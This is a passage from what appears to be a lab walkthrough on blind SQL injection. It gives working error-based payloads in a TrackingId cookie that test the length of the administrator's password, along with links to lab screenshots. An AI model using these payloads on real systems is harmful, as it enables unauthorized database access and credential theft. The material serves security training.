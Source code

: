 ![2025-05-21_05-41.png](LabImg/2025-05-21_05-41.png)

This condition should be true, confirming that the password is greater than 1 character in length.
                        
11. Send a series of follow-up values to test different password lengths. Send:

```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Then send:

```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```

![2025-05-21_05-42.png](LabImg/2025-05-21_05-42.png)
